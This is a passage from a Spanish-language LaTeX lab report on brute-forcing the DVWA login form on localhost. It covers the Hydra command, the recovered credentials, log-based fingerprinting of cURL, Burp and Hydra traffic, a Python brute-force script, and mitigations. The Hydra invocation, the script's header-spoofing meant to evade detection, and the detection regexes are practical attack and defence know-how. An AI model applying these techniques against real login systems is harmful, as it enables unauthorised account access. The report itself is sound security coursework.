'/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie: PHPSESSID=...; security=low:S=Welcome to the password protected area'
\end{verbatim}
        \item \verb|-o /data/hydra_light.txt|: guarda el log con las combinaciones válidas encontradas.
\end{itemize}


\begin{verbatim}
$ sudo docker run --rm --network="host" -v "$(pwd)":/data vanhauser/hydra \
    -L /data/usuarios_light.txt -P /data/contrasenas_light.txt -s 8889 \
    localhost http-get-form \
        '/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\: PHPSESSID=knd082p12k28do4ttsn47hfd35; security=low:S=Welcome to the password protected area' \
    -o /data/hydra_light.txt
\end{verbatim}


\subsection{Obtención de al menos 2 pares (hydra)}

\begin{verbatim}
[8889][http-get-form] ... login: admin   password: password
[8889][http-get-form] ... login: gordonb password: abc123
1 of 1 target successfully completed, 2 valid passwords found
\end{verbatim}

Los pares válidos obtenidos fueron:
\begin{itemize}
        \item Usuario \texttt{admin} con la contraseña \texttt{password}.
        \item Usuario \texttt{gordonb} con la contraseña \texttt{abc123}.
\end{itemize}


\subsection{Explicación paquete curl (tráfico)}
Este registro ejemplifica una ejecución aislada con \texttt{cURL}. Rasgos distintivos: \textbf{User-Agent}\ =\ \texttt{curl/8.5.0}, ausencia de \texttt{Referer} (marcada como \texttt{"-"}), método \texttt{GET} con todos los parámetros en la query string y protocolo \texttt{HTTP/1.1}. La herramienta sólo envía las cabeceras mínimas que se le especifiquen explícitamente, lo que produce un perfil muy reducido y fácil de reconocer en los logs. El tamaño de respuesta (4703 bytes) sirve como referencia para comparar con otros intentos.
\begin{verbatim}
172.17.0.1 - - [03/Oct/2025:06:40:23 +0000] "GET /vulnerabilities/brute/?username=njnkyuuykmn&password=jnjrjrnfjer&Login=Login HTTP/1.1" 200 4703 "-" "curl/8.5.0"
\end{verbatim}
\subsection{Explicación paquete burp (tráfico)}
El paquete capturado a través de Burp refleja una solicitud generada por el navegador (Firefox) pasando por el proxy: \textbf{User-Agent} completo de Firefox, presencia de \texttt{Referer} apuntando a una URL previa similar (lo que denota navegación encadenada), protocolo \texttt{HTTP/1.1} y una longitud de respuesta distinta (1827 bytes en el ejemplo). Aunque el log combinado no muestra todos los encabezados avanzados (\texttt{Accept-Language}, \texttt{Accept-Encoding}, etc.), éstos se observan en la captura detallada y forman parte de la firma típica de un navegador real.
\begin{verbatim}
172.17.0.1 - - [03/Oct/2025:02:29:15 +0000] "GET /vulnerabilities/brute/?username=gordonb&password=abc123&Login=Login HTTP/1.1" 200 1827 "http://localhost:8889/vulnerabilities/brute/?username=admin&password=jessica&Login=Login" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:141.0) Gecko/20100101 Firefox/141.0"
\end{verbatim}
\subsection{Explicación paquete hydra (tráfico)}
Hydra emite peticiones en ráfagas rápidas. Sus características clave visibles en el log: uso de \textbf{HTTP/1.0}, \textbf{User-Agent} corto \texttt{Mozilla/5.0 (Hydra)}, ausencia de \texttt{Referer} y patrón repetitivo (primero la ruta base, luego variantes con credenciales). Las longitudes 4651 (página base) y ~4700 (intentos con parámetros) se repiten estableciendo una huella fácil de agrupar estadísticamente. Este perfil (HTTP/1.0 + UA Hydra + alta densidad temporal) contrasta con la cadencia humana o manual de cURL.
\begin{Verbatim}[breaklines=true,breakanywhere=true]
172.17.0.1 - - [03/Oct/2025:02:24:33 +0000] "GET /vulnerabilities/brute/ HTTP/1.0" 200 4651 "-" "Mozilla/5.0 (Hydra)"
172.17.0.1 - - [03/Oct/2025:02:24:33 +0000] "GET /vulnerabilities/brute/?username=admin&password=abc123&Login=Login HTTP/1.0" 200 4703 "-" "Mozilla/5.0 (Hydra)"
\end{Verbatim}

\subsection{Mención de las diferencias (tráfico)}
Comparando los tres tipos de tráfico desde los registros del servidor:
\begin{itemize}
    \item \textbf{User-Agent}: \texttt{curl/x.y.z} (cURL) vs. cadena completa de Firefox (Burp/navegador) vs. \texttt{Mozilla/5.0 (Hydra)} (Hydra).
    \item \textbf{Protocolo}: cURL y Burp usan \texttt{HTTP/1.1}; Hydra predomina con \texttt{HTTP/1.0} en este escenario.
    \item \textbf{Referer}: Presente en Burp (por navegación real), ausente en cURL (invocación directa) y en Hydra (ataque automatizado).
    \item \textbf{Tasa / patrón temporal}: cURL = aislado; Burp = intervalos irregulares (uso humano); Hydra = ráfaga muy densa y sistemática.
    \item \textbf{Longitud de respuesta}: Hydra muestra dos clústeres (base vs intentos); cURL y Burp tienen tamaños distintos que ayudan a separar casos de éxito/fracaso; combinando con frecuencia fortalece la clasificación.
    \item \textbf{Conjunto de cabeceras}: Burp (navegador) incluye cabeceras ricas (idioma, compresión); Hydra y cURL típicamente envían un subconjunto reducido salvo configuración manual.
\end{itemize}
Resumen: Hydra = (HTTP/1.0 + sin Referer + ráfaga + UA propio), Burp = (Firefox completo + Referer + ritmo humano), cURL = (UA minimalista + sin Referer + petición puntual).

\subsection{Detección de SW (tráfico)}
Heurísticas prácticas para atribución automática en el servidor o un pipeline de análisis:
\begin{enumerate}
    \item \textbf{Firmas de User-Agent}: Regex simples (\texttt{/curl\\\/\\d/}, \texttt{/Hydra/}, \texttt{/Firefox\\\/[0-9]+\\./}) clasifican la mayoría de casos.
    \item \textbf{Versión HTTP}: Secuencias numerosas con \texttt{HTTP/1.0} + misma IP + UA Hydra refuerzan la etiqueta de ataque automatizado.
    \item \textbf{Referer + frecuencia}: Ausencia persistente de \texttt{Referer} y alta densidad temporal (intervalos sub‑segundo) sugiere Hydra; único request aislado sin Referer apunta a cURL; presencia de Referer coherente indica navegador/Burp.
    \item \textbf{Agrupamiento por longitud}: K-means o reglas simples sobre tamaño de respuesta separan rutas base de intentos y ayudan a detectar barridos (Hydra) frente a exploración manual.
    \item \textbf{Cabeceras enriquecidas}: Presencia conjunta de \\ \texttt{Accept-Language}, \texttt{Accept-Encoding}, \texttt{Upgrade-Insecure-Requests} eleva probabilidad de navegador real (Burp).
\end{enumerate}
Resistencia a evasión: aunque un atacante puede falsificar el \texttt{User-Agent}, replicar simultáneamente la cadencia humana, la mezcla de encabezados y la distribución de longitudes es más costoso. Combinar estos factores reduce falsos positivos, ya que un atacante podría cambiar el User-Agent a uno de Firefox, pero mantener intervalos sub-segundo y HTTP/1.0 sería sospechoso. Además, la presencia de múltiples cabeceras avanzadas como Sec-Fetch-* dificulta la evasión completa sin un navegador real. Por ejemplo, un script que imita Burp podría incluir cabeceras como \texttt{Sec-Fetch-Dest: document} y \texttt{Sec-Fetch-Mode: navigate}, pero omitir \texttt{Sec-Fetch-Site} o usar valores inconsistentes revelaría la automatización. En resumen, mientras que un atacante puede evadir una heurística individual, combinar múltiples indicadores crea una barrera robusta contra la evasión sofisticada. Esta aproximación heurística es efectiva en la práctica porque los ataques automatizados rara vez invierten el esfuerzo necesario para replicar completamente el comportamiento de un navegador legítimo, especialmente cuando se combina con análisis de frecuencia y patrones temporales.

\subsection{Interacción con el formulario (python)}

El ataque se automatiza en \verb|brute_force_script.py| usando \verb|requests|. El flujo principal es:
\begin{enumerate}
    \item El usuario del script ingresa la URL base (\verb|http://localhost:8889|), el valor vigente de la cookie \verb|PHPSESSID| y el nivel de seguridad configurado en DVWA. Con esa información se inicializa un objeto \verb|requests.Session()| que mantiene estado entre peticiones.
    \item El script fija \verb|/vulnerabilities/brute/| como punto final y carga diccionarios ligeros de usuarios y contraseñas. Cada intento reemplaza los campos \verb|username| y \verb|password| del formulario mediante parámetros GET, reproduciendo la estructura que DVWA espera.
    \item Antes de lanzar la ráfaga de peticiones, se cargan en la sesión las cookies \verb|PHPSESSID| y \verb|security|. DVWA reconoce la sesión como autenticada y permite interactuar con el formulario protegido sin redirigir a \verb|login.php|.
    \item Por cada combinación, la función \verb|attempt_login| envía una solicitud GET usando la sesión persistente. Tras cada respuesta compara el cuerpo HTML contra la cadena ``Welcome to the password protected area'', el mismo texto que aparece en la versión legítima del sitio. Si se encuentra, el par usuario/clave se marca como válido y se añade al reporte.
    \item Se introduce un retardo configurable (0.2 s por defecto) para evitar saturar el servidor o activar mitigaciones básicas basadas en tasa. El script imprime progreso en pantalla y al final resume las credenciales extraídas.
\end{enumerate}

Se verificó el comportamiento consultando el panel \verb|/dvwa/vulnerabilities/brute/| y observando \\
cómo el script replica la misma consulta GET que un navegador. Los parámetros y el flujo de \\
respuesta coinciden con los de la instancia DVWA activa.

\subsection{Cabeceras HTTP (python)}

La sesión HTTP se configura para imitar un navegador real y minimizar la detección del tráfico automatizado. Las cabeceras relevantes definidas en el script son:
\begin{itemize}
    \item \verb|User-Agent|: se presenta como un navegador Chrome moderno sobre Linux. Esto evita que DVWA identifique el origen como un cliente genérico o vacío, práctica común en bots triviales.
    \item \verb|Accept| y \verb|Accept-Language|: declaran que el cliente acepta HTML, XML y otros formatos típicos, además de un idioma predominante en inglés. DVWA responde con el mismo contenido que serviría a un usuario legítimo.
    \item \verb|Accept-Encoding|: anuncia soporte para \verb|gzip| y \verb|deflate|, lo que permite recibir respuestas comprimidas cuando el servidor las ofrece y deja el tráfico indistinguible del generado por un navegador.
    \item \verb|Connection|: se fija en \verb|keep-alive| para reutilizar la conexión TCP y mejorar el rendimiento del ataque, comportamiento habitual en clientes reales.
    \item \verb|Upgrade-Insecure-Requests|: valor \verb|1| que comunica la preferencia por HTTPS cuando esté disponible. Aunque DVWA está en HTTP, la cabecera agrega verosimilitud.
    \item Cookies \verb|PHPSESSID| y \verb|security|: se envían mediante el contenedor de cookies de la sesión. Estas cabeceras son críticas porque sin ellas DVWA no relaciona las peticiones con una sesión autenticada y devolvería el formulario de login.
\end{itemize}

Al monitorear las peticiones con la herramienta ``Network'' del navegador mientras se ejecuta el script, se observa que los encabezados coinciden con los de una navegación manual, lo que confirma que la automatización reproduce fielmente el tráfico esperado por DVWA.

\subsection{Obtención de al menos 2 pares (python)}
\begin{verbatim}
camilo@camilo-Aspire-A315-56:/tmp$ python3 brute_force_script.py
==========================================================================
SCRIPT DE FUERZA BRUTA - DVWA
==========================================================================

==========================================================================
EJECUCIÓN DEL ATAQUE DE FUERZA BRUTA
==========================================================================
=> Ingrese la URL base de DVWA (ej. http://localhost:8889): http://localhost:8889
=> Ingrese su cookie PHPSESSID: knd082p12k28do4ttsn47hfd35
=> Ingrese el nivel de seguridad (low/medium/high) [low]: low

[INFO] Listas cargadas: 5 usuarios, 5 contraseñas.
[INFO] Iniciando ataque de fuerza bruta...
[INFO] Usuarios: 5, Contraseñas: 5
[INFO] Total de combinaciones a probar: 25
[INFO] URL objetivo: http://localhost:8889/vulnerabilities/brute/
[INFO] Delay entre intentos: 0.2s
------------------------------------------------------------
[SUCCESS] [OK] Credenciales válidas encontradas: admin:password
[SUCCESS] [OK] Credenciales válidas encontradas: pablo:letmein
[SUCCESS] [OK] Credenciales válidas encontradas: smithy:password
[0025/0025] Probando smithy:123456...
------------------------------------------------------------

==========================================================================
RESULTADOS DEL ATAQUE
==========================================================================
[SUCCESS] Se encontraron 3 combinaciones válidas:
    1. Usuario: 'admin' | Contraseña: 'password'
    2. Usuario: 'pablo' | Contraseña: 'letmein'
    3. Usuario: 'smithy' | Contraseña: 'password'

[INFO] Ataque completado.
\end{verbatim}

\subsection{Comparación de rendimiento con Hydra, Burpsuite, y cURL (python)}


\begin{itemize}
    \item \textbf{Velocidad:} Hydra destaca gracias a su motor multihilo en C. Burp Suite también es ágil y el script en Python resulta más lento por el intérprete, aunque puede acelerarse con librerías asíncronas.
    \item \textbf{Detección (Sigilo):} El script en Python es el más sigiloso al permitir control total sobre delays, proxies y User-Agents rotativos. cURL comparte sigilo a costa de ser manual. Hydra, por su ritmo y patrón de peticiones, es el más detectable por un WAF o IDS.
    \item \textbf{Flexibilidad:} Python puede manejar lógicas complejas (tokens CSRF variables o desafíos JavaScript). Burp Suite ofrece flexibilidad mediante macros. Hydra está optimizado para formularios de login estándar.
\end{itemize}

\newpage
\subsection{Demuestra 4 métodos de mitigación (investigación)}
\noindent A continuación se sintetizan cuatro mecanismos comunes de mitigación para ataques de fuerza bruta. Para cada uno se resume: funcionamiento, escenario óptimo y pros/contras clave.
\begin{enumerate}
  \item \textbf{Rate limiting, bloqueo y backoff}. Limita intentos por IP/usuario en ventana temporal y aplica bloqueo temporal creciente tras umbrales (backoff exponencial). \emph{Escenario}: cualquier sistema autenticado expuesto públicamente. \emph{Ventajas}: simple, poco invasivo para usuarios legítimos. \emph{Desventajas}: evasión vía botnets o ataques "low \\
  and slow" distribuidos.
  \item \textbf{CAPTCHA adaptativo}. Introduce un desafío sólo tras varios fallos o comportamiento anómalo (formularios de registro/login públicos). \emph{Ventajas}: frena bots básicos/intermedios. \emph{Desventajas}: fricción accesibilidad; servicios de resolución humana y modelos de IA reducen eficacia; debe activarse de forma adaptativa para no degradar UX.
  \item \textbf{Autenticación multifactor (MFA)}. Requiere (algo que sabes + tienes + eres). \emph{Escenario}: cuentas sensibles (admins, banca, correo). \emph{Ventajas}: inutiliza credenciales aisladas filtradas. \emph{Desventajas}: costo operativo, dependencia de dispositivo y posible fatiga por prompts.
  \item \textbf{Monitoreo y bloqueo contextual (IP / geolocalización / reputación / comportamiento)}. Analiza patrones (frecuencia, dispersión geográfica, reputación IP, imposibilidad geográfica). \emph{Escenario}: plataformas con base de usuarios definida geográficamente o con capacidad de telemetría avanzada. \emph{Ventajas}: detecta ataques distribuidos y anómalos temprano. \emph{Desventajas}: riesgo de falsos positivos (viajes, VPN), mantenimiento continuo de listas y modelos.
\end{enumerate}

% Please add the following required packages to your document preamble:
%\begin{table}[htbp]

\section*{Conclusiones y comentarios}
El laboratorio permitió contrastar distintas aproximaciones a un ataque de fuerza bruta sobre DVWA (nivel \texttt{low}) y extraer lecciones sobre eficacia técnica, huella de red y mitigación.

    	\textbf{1. Herramientas y resultados.} Burp Suite Intruder facilitó la exploración inicial (identificación de parámetros, manipulación del espacio de búsqueda e indicadores de éxito). Hydra mostró la mayor velocidad bruta (implementación optimizada y paralelización implícita). El script en Python brindó máximo control (pausas, encabezados, detección) a costa de menor rendimiento. cURL sirvió para validar casos límite y construir la solicitud mínima reproducible.

    	\textbf{2. Indicadores de éxito.} El patrón dual (mensaje “Welcome to the password protected area” + imagen \texttt{/hackable/users/<usuario>.jpg}) se consolidó como señal inequívoca de autenticación válida. Los fallos exhiben bloque \texttt{<pre>} de error y ausencia de imagen, habilitando reglas simples (Hydra: \texttt{S=}, script: búsqueda de cadena) sin parseo avanzado del DOM.

    	\textbf{3. Comparación de tráfico.} Todas mantienen semántica GET. Hydra: HTTP/1.0 + UA corto; Burp y script: cabeceras completas + \texttt{keep-alive}; cURL manual: encabezados mínimos. Diferencias útiles para heurísticas de detección temprana.

    	\textbf{4. Riesgos y ética.} Diccionarios reducidos (subconjuntos de \texttt{rockyou.txt}) limitaron superficie temporal y evitaron abuso. Entorno controlado y local alineado con buenas prácticas de prueba ética.

    	\textbf{5. Mitigaciones ausentes.} En modo \texttt{low} faltan rate limiting, bloqueo progresivo, MFA, CAPTCHA y análisis contextual. Las contramedidas estudiadas (rate limiting/backoff, CAPTCHA adaptativo, MFA, monitoreo contextual) elevarían el costo; MFA neutraliza credenciales filtradas sin segundo factor.

    	\textbf{6. Lecciones técnicas.} (i) Cadena de éxito clara simplifica automatización; (ii) herramienta depende de objetivo (velocidad vs sigilo vs extensibilidad); (iii) normalizar encabezados/temporización añade camuflaje; (iv) instrumentar primero con Burp acelera scripting.

    	\textbf{7. Limitaciones.} Entorno permisivo: sin WAF, sin CAPTCHA, sin rotación CSRF. Métricas no extrapolables a entornos endurecidos; no se midió latencia real ni diccionarios extensos.

    	\textbf{Conclusión general.} Observación manual (Burp) + validación mínima (cURL) + fuerza bruta rápida (Hydra) + automatización controlada (Python) ofrecen visión integral. Defensas relativamente simples (rate limiting, MFA, CAPTCHA contextual, monitoreo inteligente) degradan significativamente la viabilidad del vector en producción.

\end{document}
